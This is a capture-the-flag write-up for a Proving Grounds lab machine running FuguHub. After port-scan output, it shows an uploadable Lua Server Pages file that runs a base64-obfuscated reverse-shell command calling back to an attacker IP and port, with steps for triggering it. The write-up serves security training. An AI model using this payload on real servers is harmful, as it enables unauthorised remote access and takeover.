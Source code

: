 ```yaml
---
title: "Proving grounds Practice: Hub"
layout: post
date: 2023-08-18 06:00
categories: writeup
---
```


Proving grounds Practice - Hub CTF writeup.

## Nmap

```sh
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp   open  http     nginx 1.18.0
8082/tcp open  http     Barracuda Embedded Web Server
| http-methods: 
|   Supported Methods: OPTIONS GET HEAD PROPFIND PATCH POST PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_  Potentially risky methods: PROPFIND PATCH PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
| http-webdav-scan: 
|   Server Type: BarracudaServer.com (Posix)
|   Server Date: Fri, 18 Aug 2023 04:51:55 GMT
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PATCH, POST, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|_  WebDAV type: Unknown
|_http-title: Home
|_http-favicon: Unknown favicon MD5: FDF624762222B41E2767954032B6F1FF
|_http-server-header: BarracudaServer.com (Posix)
9999/tcp open  ssl/http Barracuda Embedded Web Server
|_http-title: Home
| http-webdav-scan: 
|   Server Type: BarracudaServer.com (Posix)
```

## Web

![img](/assets/images/CTF/Proving_Grounds/Hub/fugu01.png)

Fuguhub is vulnerable to [Remote Code Execution](https://github.com/ojan2021/Fuguhub-8.1-RCE)

**Set administrative account**

![img](/assets/images/CTF/Proving_Grounds/Hub/admin01.png)

**Login to the admin account**

![img](/assets/images/CTF/Proving_Grounds/Hub/admin-login.png)

- Direct to the Web file manager.
- Click upload file and upload below script.

## Remote Code Execution Exploit

```lsp
<div style="margin-left:auto;margin-right: auto;width: 350px;">

<div id="info">
<h2>Lua Server Pages Reverse Shell</h2>
<p>Delightful, isn't it?</p>
</div>

<?lsp if request:method() == "GET" then ?>
   <?lsp os.execute("echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4xODcvMTIzNCAwPiYx | base64 -d | bash") ?>
<?lsp else ?>
   You sent a <?lsp=request:method()?> request
<?lsp end ?>

</div>
```

- Change the IP address and PORT in the base64 encoded value and save file as `.lsp`. 
- Upload the file to file server and visit the uploaded file to trigger the reverse shell.

![img](/assets/images/CTF/Proving_Grounds/Hub/rce-trigger.png)

![img](/assets/images/CTF/Proving_Grounds/Hub/root.png)

Root Obtained.

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).